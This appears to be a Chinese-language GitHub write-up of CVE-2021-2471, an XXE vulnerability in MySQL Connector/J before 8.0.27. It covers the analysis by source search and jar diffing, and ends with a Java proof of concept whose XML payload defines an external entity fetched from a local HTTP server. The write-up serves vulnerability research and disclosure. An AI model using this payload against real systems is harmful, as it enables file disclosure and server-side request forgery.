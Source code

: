 # CVE-2021-2471

By Firebasky

>昨天晚上看twitter,发现jdbc出现了一个xxe漏洞，比较感兴趣，阿里给了介绍但是没有给exp。
>
>https://mp.weixin.qq.com/s/erIFMiPNB2XSBJSqXyxuKg

## 分析

文章中介绍了是`getSource`函数造成的原因，那我们就需要先找到这个函数的类。漏洞版本是MySQL JDBC 8.0.27版本之前。所以我们创建maven项目并且添加jdbc的组件。https://mvnrepository.com/artifact/mysql/mysql-connector-java/8.0.26

```xml
<!-- https://mvnrepository.com/artifact/mysql/mysql-connector-java -->
<dependency>
    <groupId>mysql</groupId>
    <artifactId>mysql-connector-java</artifactId>
    <version>8.0.26</version>
</dependency>
```

### 全局搜索

然后搜索getSource函数利用（全局搜索）

![image-20211022135316052](img/image-20211022135316052.png)

大概是这个在跟进他的实现。确实是这个。。

![image-20211022135425801](img/image-20211022135425801.png)

### 对比发现漏洞

如果上面的方法感觉不好，那么可以对比来实现，因为文章中介绍了MySQL JDBC 8.0.27版本之前，说明MySQL JDBC 8.0.27就修复了漏洞，那我们下载MySQL JDBC 8.0.27和MySQL JDBC 8.0.26 来使用工具对比jar包看看不一样的地方是啥。

https://github.com/GraxCode/cafecompare

![image-20211022140911655](img/image-20211022140911655.png)



现在具体看看**com.mysql.cj.jdbc.getSource**函数

![d](img/image-20211022141357429.png)

我们在看看**this.stringRep**怎么设置的

![image-20211022141453082](img/image-20211022141453082.png)

然后现在去看看怎么调用这个**getSource**函数，就去看看他的接口

![image-20211022141712911](img/image-20211022141712911.png)

那么现在问题就是创建一个SQLXML对象就欧克，就可以调用其getSource和setString方法。

https://www.docs4dev.com/docs/zh/java/java8/tutorials/jdbc-basics-sqlxml.html#creating_sqlxml

![image-20211022142111106](img/image-20211022142111106.png)

## exp

```java
package CVE;

import javax.xml.transform.dom.DOMSource;
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;
import java.sql.SQLXML;

public class CVE_2021_2471 {
    public static void main(String[] args) throws SQLException {
        String poc = "<?xml version=\"1.0\" ?>\n" +
                "<!DOCTYPE r [\n" +
                "<!ELEMENT r ANY >\n" +
                "<!ENTITY sp SYSTEM \"http://127.0.0.1:4444/test.txt\">\n" +
                "]>\n" +
                "<r>&sp;</r>";
        Connection connection = DriverManager.getConnection("jdbc:mysql://127.0.0.1:3306/test", "root", "0210520");
        SQLXML sqlxml = connection.createSQLXML();
        sqlxml.setString(poc);
        sqlxml.getSource(DOMSource.class);//为了绕过clazz.equals(DOMSource.class)
    }
}
```

## 效果

![image-20211022142331574](img/image-20211022142331574.png)

